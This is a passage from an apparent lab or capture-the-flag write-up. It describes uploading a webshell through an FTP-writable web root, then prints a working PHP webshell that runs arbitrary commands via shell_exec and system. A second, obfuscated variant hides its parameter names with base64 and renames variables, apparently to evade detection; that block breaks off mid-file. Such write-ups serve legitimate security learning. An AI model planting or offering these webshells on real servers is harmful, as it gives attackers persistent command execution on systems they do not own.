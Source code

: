 That leads to being able read and execute uploaded files from the FTP server in the root web directory that requires authentication. 
![](hashcatcracked.png)

Regardless of using an uncommon port to host a web server we can still access this in simplistic set of step discussed previously.
![](offseceliteforwebpage.png)

Then uploading a webshell.
![](webadeshell.png)

https://sushant747.gitbooks.io/total-oscp-guide/content/webshell.html

I ran it into some issues that were easily fixed - it is just accessing the webshell page without providing data for the cmd to execute arbitrary commands on the webserver 
![](nowebshellsadness.png)

For the beyond root I decided to learn some PHP and cobble together my own webshell:
![](mademyownwebshellfromothers.png)

The code is here to copy:
```php
<html>
<head>
<title>Perspective honing persistence</title>
// Made from simple_cmd.php, simple-backdoor.php
<body>
<form method=POST>
<input type=TEXT name="cmd" size=64 value="<?=$cmd?>"
<input type=TEXT name="systemRequest" size=64 value="<?=$systemRequest?>"
<hr>
</form>
<?php $cmd = $_REQUEST["cmd"];?>
<?php if ($cmd != "") { print Shell_Exec($cmd); } else { echo "cmd=";}?>
<?php
if(isset($_REQUEST['systemRequest'])){
        echo "<pre>";
        $systemRequest = ($_REQUEST['systemRequest']);
        system($systemRequest);
        echo "</pre>";
        die;
}
?>
</body>
</html>
```

I could have also used [Online php-obfuscator](https://www.gaijin.at/en/tools/php-obfuscator) from [[Wreath-Writeup]] may also help in adding to discovery.
```php
<html>
<head>
<title>Perspective honing persistence</title>
// Made from simple_cmd.php, simple-backdoor.php
<body>
<form method=POST>
<input type=TEXT name="cmd" size=64 value="<?=$edfff0a7fa1a5?>"
<input type=TEXT name="systemRequest" size=64 value="<?=$k06ca1b7b4ed8?>"
<hr>
</form>
<?php $edfff0a7fa1a5=$_REQUEST[base64_decode('Y21k')];?>
<?php if($edfff0a7fa1a5!=''){printShell_Exec($edfff0a7fa1a5);}else{echo base64_decode('Y21kPQ==');}?>
```